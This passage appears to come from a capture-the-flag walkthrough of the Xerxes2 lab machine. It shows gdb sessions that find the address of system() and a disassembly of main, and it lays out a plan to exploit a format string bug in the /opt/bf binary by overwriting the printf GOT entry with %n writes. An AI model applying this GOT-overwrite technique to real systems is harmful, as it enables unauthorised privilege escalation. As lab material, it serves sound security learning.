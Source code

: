 ```bash
delacroix@xerxes2:~$ gdb -q /opt/bf
Reading symbols from /opt/bf...(no debugging symbols found)...done.
(gdb) run
Starting program: /opt/bf
usage: /opt/bf [program]
[Inferior 1 (process 11342) exited with code 0377]
(gdb) print system
$1 = {<text variable, no debug info>} 0x40062000 <system>
(gdb)
```

Soooo, 0x40062000. We have the point in memory where `system()` lives, and we know where the program is going to go to lookup the `printf` function. All that is left now is to exploit the format string vulnerability, override the location of `printf` with `system`, and provide a new argument for the now fooled `printf` to run. A new argument can be given by simply providing another `#` (remember we have the source so that was easy to figure out).

### /opt/bf - part4
We have all the information we need, lets get to work.

We fire up `gdb`, and instead of printing the location of `AAAA`, we provide a memory address, with a `%n` format string so that we can write the amount of bites needed to override the pointer location.

To aid in getting the exact amount of padding right, we will set a breakpoint just before the application finished so that we can examine the pointer 0x08049a48 from the GOT:

```bash
delacroix@xerxes2:~$ gdb -q /opt/bf
Reading symbols from /opt/bf...(no debugging symbols found)...done.

(gdb) disass main
Dump of assembler code for function main:
   0x08048684 <+0>: push   %ebp
   0x08048685 <+1>: mov    %esp,%ebp
   0x08048687 <+3>: and    $0xfffffff0,%esp
   0x0804868a <+6>: sub    $0x7540,%esp
   0x08048690 <+12>:    cmpl   $0x1,0x8(%ebp)
   0x08048694 <+16>:    jg     0x80486b7 <main+51>
   0x08048696 <+18>:    mov    0xc(%ebp),%eax
   0x08048699 <+21>:    mov    (%eax),%eax
   0x0804869b <+23>:    mov    %eax,0x4(%esp)
   0x0804869f <+27>:    movl   $0x804887c,(%esp)
   0x080486a6 <+34>:    call   0x8048390 <printf@plt>
   0x080486ab <+39>:    movl   $0xffffffff,(%esp)
   0x080486b2 <+46>:    call   0x80483c0 <exit@plt>
   0x080486b7 <+51>:    movl   $0x7530,0x8(%esp)
   0x080486bf <+59>:    movl   $0x0,0x4(%esp)
   0x080486c7 <+67>:    lea    0x10(%esp),%eax
   0x080486cb <+71>:    mov    %eax,(%esp)
   0x080486ce <+74>:    call   0x80483e0 <memset@plt>
   0x080486d3 <+79>:    mov    0xc(%ebp),%eax
   0x080486d6 <+82>:    add    $0x4,%eax
   0x080486d9 <+85>:    mov    (%eax),%eax
   0x080486db <+87>:    lea    0x10(%esp),%edx
   0x080486df <+91>:    mov    %edx,0x4(%esp)
   0x080486e3 <+95>:    mov    %eax,(%esp)
   0x080486e6 <+98>:    call   0x80484ec <bf>
   0x080486eb <+103>:   movl   $0x0,(%esp) # <-- we will break here
   0x080486f2 <+110>:   call   0x80483c0 <exit@plt>
End of assembler dump.

(gdb) break *0x080486eb
Breakpoint 1 at 0x80486eb

```